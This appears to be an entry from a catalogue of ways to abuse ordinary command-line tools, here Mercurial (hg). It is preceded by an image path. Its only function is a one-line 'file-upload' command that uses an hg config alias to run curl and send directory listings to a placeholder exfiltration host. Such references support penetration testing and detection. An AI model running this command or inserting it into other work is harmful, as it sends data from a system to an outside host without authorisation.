 ```yaml
---
description: hg (Mercurial) is a source control management tool.
functions:
  file-upload:
    - code: |
        hg init --config=alias.identify=!curl http://exfiltration-host.tld --data "$(ls -alh)"
---
```

